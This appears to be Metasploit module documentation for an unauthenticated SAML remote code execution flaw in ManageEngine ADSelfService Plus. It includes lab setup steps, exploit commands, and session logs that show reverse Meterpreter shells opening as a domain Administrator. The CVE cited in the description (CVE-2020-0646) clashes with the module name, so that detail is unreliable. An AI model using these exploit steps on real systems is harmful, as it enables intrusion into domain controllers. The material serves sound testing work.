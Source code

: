 ## Vulnerable Application

This exploits an unauthenticated remote code execution vulnerability that
affects Zoho ManageEngine ADSelfService Plus versions 6210 and below
(CVE-2020-0646). Due to a dependency to an outdated library (Apache Santuario
version 1.4.1), it is possible to execute arbitrary code by providing a crafted
`samlResponse` XML to the ADSelfService Plus SAML endpoint. Note that the target
is only vulnerable if it has been configured with SAML-based SSO at least once
in the past, regardless of the current SAML-based SSO status.


## Installation

### SAML 2.0 Identity Provider

If you don't have an already SAML 2.0 Identity Provider (IdP), you can use this
free one for testing: https://mocksaml.com/. Download the Metadata file and
take note of the Entity ID URL (`https://saml.example.com/entityid`).

### Download the installers

Go to https://archives.manageengine.com/, fill the form with any data and
select ADSelfService Plus product with any version (e.g. `6210`). You can then
have access to all the versions and platform installers.

### Windows

This host will need to be part of a domain.
1. Launch the Windows installer and select all the default options by clicking
   `Next` (you can skip the Registration for Technical Support part, it is
   optional). When the installation is done, unselect the two options `Yes, I
   want to view readme file` and `Start ADSelfService Plus in console mode` and
   click `Finish`.
1. Go to the Start menu, select `ADSelfService Plus` and click `Install
   ADSelfService Plus as Service`.
1. Go to the Start menu again, select `ADSelfService Plus` and click `Start
   ADSelfService Plus`. This will start a browser and get you to the login
   page.

### Enable SAML 2.0 SSO

1. Go to `http://<hostname>:8888`
1. Login with the default Administrator credentials (`admin`:`admin`).
1. Fill and set up the mandatory Security Questions and click `Next`.
1. Click on `Admin` in the navigation bar, then `Product Settings` and `Connection`.
1. Select `ADSelfService Plus Port [https]` and click on `Apply SSL Certificate`.
1. Select `Generate Certificate`, fill the mandatory fields and click on
   `Generate & Apply Self-Signed Certificate`.
1. Click on `Update Access URL` in the banner that appears immediately after
   the SSL certificate has been applied.
1. Select `HTTPS` and change the default port to 9251. The Server Name should
   already be the system hostname. Click `Save`.
1. Click again on `Admin` in the navigation bar, then `Customize` and `Login
   Settings`. In the main panel `General` tab, check the `Hide self-service
   admin login` checkbox, close the notification window and click `Save`.
1. Select the `Single Sign-On` tab and check the `Enable SSO` checkbox.
1. Select SAML Authentication, choose `Custom SAML` in the `Select IdP`
   dropdown menu. Enter any name in `IdP Name` and upload the Metadata file you
   get from the IdP.
1. Click `Save`.

At this point you will need to take note of the URL (Recipient or Issuer URL
they should be the same). Its format is
`https://<hostname>:9251/samlLogin/<32-digit id>`. The ID will be used by the
module (see the next section).

Finally, restart the server: go to the Start menu again, select `ADSelfService
Plus` and click `Stop ADSelfService Plus` and then `Start ADSelfService Plus`.
This should get you to the updated URL the HTTPS one, port 9251.


## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966`
1. Do: `exploit rhosts=<remote host IP> lhost=<local host IP> guid=<the ID from the Enable SAML 2.0 SSO section> issuer_url=<Entity ID URL from the IdP>`
1. You should get a shell
1. Also test with the other target


## Options

### TARGETURI
The ADSelfService Plus SAML endpoint URL. Set to `/samlLogin` by default.

### GUID
The SAML endpoint GUID you got from the Admin page (see the `Enable SAML 2.0
SSO` section).

### ISSUER_URL
The Issuer URL used by the Identity Provider which has been configured as the
SAML authentication provider for the target server.

### RELAY_STATE
The Relay State URL. This is optional and is automatically set up by the module
by default (`http(s)://<rhost>:<rport>/samlLogin/LoginAuth`).


## Scenarios

## Windows 2019 - Target 0 (Windows Command)
```
msf6 exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.107 lhost=192.168.100.1 guid=e699eba710a6643f561a5f24ce3df0be1e1b5674 issuer_url=https://saml.example.com/entityid

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (175686 bytes) to 192.168.100.107
[*] Meterpreter session 7 opened (192.168.100.1:4444 -> 192.168.100.107:50225) at 2023-01-26 21:42:18 +0100

meterpreter > sysinfo
Computer        : NEWDC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : NEWLAB
Logged On Users : 8
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NEWLAB\Administrator
```

## Windows 2019 - Target 1 (Windows EXE Dropper)
```
msf6 exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.107 lhost=192.168.100.1 guid=e699eba710a6643f561a5f24ce3df0be1e1b5674 issuer_url=https://saml.example.com/entityid

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (200774 bytes) to 192.168.100.107
[*] Command Stager progress - 100.00% done (12025/12025 bytes)
[*] Meterpreter session 8 opened (192.168.100.1:4444 -> 192.168.100.107:50227) at 2023-01-26 21:42:49 +0100

meterpreter > sysinfo
Computer        : NEWDC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : NEWLAB
Logged On Users : 8
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NEWLAB\Administrator
```



